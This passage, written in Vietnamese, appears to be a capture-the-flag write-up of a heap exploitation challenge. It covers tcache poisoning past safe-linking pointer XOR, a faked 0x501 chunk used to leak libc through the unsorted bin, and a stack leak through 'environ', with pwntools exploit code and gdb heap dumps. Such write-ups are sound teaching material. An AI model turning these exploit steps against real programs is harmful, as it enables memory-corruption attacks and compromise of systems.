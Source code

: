 Do ở bài này chỉ cấp cho ta 2 con trỏ heap nên mình đã tạo 1 đống `chunk_0` và 1 `chunk_1` để có thể `free()` 2 chunk này 

Ok sau khi free 2 chunk ta để ý đến `tcache`

```
tcachebins
0x100 [  2]: 0x5642286ff8a0 —▸ 0x5642286ff7a0 ◂— 0x0
```

Và chunk_1 khi đó

```
0x5642286ff890  0x0000000000000000      0x0000000000000101      ................
0x5642286ff8a0  0x000056474c4d715f      0xe105ed6c52f5c1e7      _qMLGV.....Rl...         <-- tcachebins[0x100][0/2]
```

Giờ chunk_1 lưu `forward_ptr` có giả trị `0x000056474c4d715f` sau khi xor như vậy mình chỉ cần tính toán và sửa lại ở đó và dùng hàm `edit()` thì ta sẽ kiếm soát con trỏ tiếp theo mà `tcache` trỏ vào

Ở đây mình muốn nó trỏ vào phần data của fake chunk ban nãy mình đã tạo và sau khi tạo như vậy chương trình sẽ hiểu là chunk này có size là `0x501` và khi free nó thì nó trả về  `unsortedbin` và lưu địa chỉ `main_arena+96` tại `forward_ptr`

Do chunk mình tạo ở vị trị `heap_base + 8a0` nên ta sẽ tính toán và dùng hàm `edit()` để sửa vị trí chunk free tiếp theo như sau:
```
payload=p64((heap+0x8a0)>>12^(heap+0x2c0))
```
với `heap+0x2c0` là địa chỉ của fake chunk's data

```
tcachebins
0x100 [  2]: 0x560e534248a0 —▸ 0x560e534242c0 ◂— 0x560e53424
```

Ok, sau khi đã kiểm soát được `tcache` thì mình sẽ tạo lại 2 chunk để gán con trỏ `Allocation` cho 2 chunk ấy và chunk mình tạo thứ 2 ấy chính là fake chunk. Mình chỉ cần `free()` nó và dùng option `show()` để leak libc

# STEP_3:   Leak stack

```
create(0, 0x28, b"a")
create(1, 0x28, b"a")
free(0)
free(1)
payload = p64(((heap+0x330)>>12)^(libc.sym['environ']-0x10))
edit(1, payload)
create(0, 0x28, b"A"*0x10)
create(0, 0x28, b"B"*0x10)
show(0)
p.recvuntil(b"B"*0x10)
stack       = int.from_bytes(p.recv(6), "little")
ret_addr    = stack - 288
print("[+]Stack:   ", hex(stack))
print("[+]Ret_addr:     ", hex(ret_addr))
```
